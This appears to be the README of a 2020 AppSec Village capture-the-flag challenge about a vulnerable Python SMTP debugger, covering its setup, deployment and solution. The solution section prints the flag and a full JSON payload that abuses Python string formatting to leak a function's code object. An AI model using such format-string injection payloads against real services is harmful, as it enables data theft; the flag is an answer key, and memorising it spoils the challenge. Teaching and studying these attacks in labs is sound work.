


# SMTPDebugger
**[AppSec Village CTF Task Fight 2020]** SMTPDebugger


_________________________________________________________

### Challenge Storyline
a Company created a Debugger APP for SMTP.  
The mission is to get the flag by reviewing the vulnerable part of the application and calling the function **get_flag**.

### Challenge Design
The challenge components are:  
* load-balancer (Nginx Load Balancer)  
* challenge (Socat - Forked Python Process)  



### Challenge Purpose
* Code Review  
* Learn how dangerous python string formats are  
* Learn how to recreate python code remotely using code objects  

### Challenge Deployment
1) Deploy the app: docker-compose up --build -d
2) For Scaling: docker-compose scale challenge=3

### Challenge Solution
1) Execute solution.py (tested with python3)
   ```bash
   python solution.py -s {HOST} -p {PORT}
   ```
   * Example: `python solution.py -s localhost.realgame.co.il -p 3780`
2) You got the flag: **CTF{F0rmat_plus_C0d3_Obj3ct_Equ4l5_Flag}**

The exploit send this JSON to the server:  
```javascript
{"from_addr": "from@addr.com", "to_addrs": "to@addr.com", "subject": "subject", "message": "co_argcount={email.get_flag.__code__.co_argcount};co_cellvars={email.get_flag.__code__.co_cellvars};co_code={email.get_flag.__code__.co_code};co_consts={email.get_flag.__code__.co_consts};co_filename='{email.get_flag.__code__.co_filename}';co_firstlineno={email.get_flag.__code__.co_firstlineno};co_flags={email.get_flag.__code__.co_flags};co_freevars={email.get_flag.__code__.co_freevars};co_kwonlyargcount={email.get_flag.__code__.co_kwonlyargcount};co_lnotab={email.get_flag.__code__.co_lnotab};co_name='{email.get_flag.__code__.co_name}';co_names={email.get_flag.__code__.co_names};co_nlocals={email.get_flag.__code__.co_nlocals};co_stacksize={email.get_flag.__code__.co_stacksize};co_varnames={email.get_flag.__code__.co_varnames};"}
```
In response it will get a the whole SMTP message,  
The message body will contain all the arguments of the code object...  
With those arguments it will create code object and replace the code of the current **get_flag** function.  

### Notes
Don't forget to upload **SMTPDebugger.py** to CTFd, it's the same as challenge but without the flag...  
